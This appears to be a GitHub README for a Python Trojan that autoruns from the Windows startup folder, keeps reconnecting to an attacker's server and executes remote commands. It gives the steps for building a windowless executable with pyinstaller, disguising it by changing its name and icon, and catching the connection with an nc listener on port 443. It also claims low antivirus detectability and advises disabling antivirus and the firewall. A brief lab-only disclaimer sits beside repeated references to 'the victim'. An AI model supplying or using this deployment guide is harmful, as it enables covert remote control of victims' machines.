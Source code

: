 # Python Trojan

## Overview
This is a basic Trojan written in Python that establishes a persistent connection with a remote server, listens for commands, and executes them on the infected machine. It autoruns by copying itself to the Windows startup folder and continuously tries to reconnect if the connection is lost. The script uses threading to execute commands concurrently.

## Features
- Persistent connection attempts to the attacker's server.
- Remote command execution.
- Multi-threaded execution to handle commands asynchronously.

## Usage
1. Modify the IP (and, optionally, the port) of the code as needed.
   
2. Install the pyinstall library that will be used to generate the executable file:

   ```
   pip install pyinstall
   ```

4. Generate the executable:

   ```
   pyinstaller -F --clean -w trojan.py
   ```

Note: the file name can also be changed, as well as the icon. 

4. The attacker must leave a port listening on his machine to receive the connection:
   
   ```
   nc -lvp 443
   ```
   When connected, you will see something like:
   
   ```
   listening on [any] 443 ...
   10.0.2.4: inverse host lookup failed: Unknown host
   ```

Once the connection is received, the attacker will have persistent access to the victim's machine, thanks to the `autorun()` function, which ensures that the program is executed automatically whenever the system is started.


## Security Notice
Use this script only in controlled environments such as penetration testing labs, with explicit permission. Misuse of this tool for unauthorized access to systems is illegal and may result in severe consequences. **The risk is yours**.

## Observations
- The program has **low detectability** by antivirus software when first run. However, there is a possibility that the antivirus may detect suspicious activity during the creation of the executable. To minimize this risk, it is recommended to disable the antivirus and firewall while generating the executable. Additionally, over time, the antivirus may eventually recognize the executable as malicious.
- There is a risk that the victim may find the trojan in the **Task Manager**. If that happens, there’s nothing to do except attempt the connection again.
- Obviously, the victim must run the Trojan on **Windows**.

